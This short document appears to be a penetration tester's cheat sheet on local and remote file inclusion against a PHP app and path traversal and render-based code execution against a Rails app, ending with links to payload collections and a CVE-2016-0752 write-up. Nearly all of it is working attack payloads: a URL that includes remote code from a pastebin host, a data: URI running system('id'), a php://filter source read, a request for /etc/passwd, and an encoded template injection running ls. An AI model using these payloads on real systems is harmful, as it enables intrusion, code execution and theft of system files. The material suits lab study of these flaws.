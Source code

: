 http://127.0.0.1:8808/?page=help.php

http://127.0.0.1:8808/?page=https://pastebin.com/raw/RmeewV7i

http://127.0.0.1:8808/?page=data:,%3C?php%20system(%27id%27);%20?%3E#

http://127.0.0.1:8808/index.php?page=php://filter/convert.base64-encode/resource=index.php

http://127.0.0.1:8808/index.php?page=%68ttps://pastebin.com/raw/RmeewV7i

Ruby

http://localhost:3000/users/%2Fetc%2Fpasswd

curl "http://localhost:3000/users/dashboard?blablabla=%3c%25%3d%60%6c%73%60%25%32%30%25%3e"

curl "http://localhost:3000/users/%2Flog%2Fdevelopment%2Elog"


https://xakep.ru/2009/09/17/49508/
https://xakep.ru/2011/07/03/55787/
https://github.com/swisskyrepo/PayloadsAllTheThings/
PHP_LFI_rfc1867 - PHP LFI to arbitratry code execution via rfc1867 file upload temporary files
https://nvisium.com/blog/2016/01/26/rails-dynamic-render-to-rce-cve-2016-0752.html
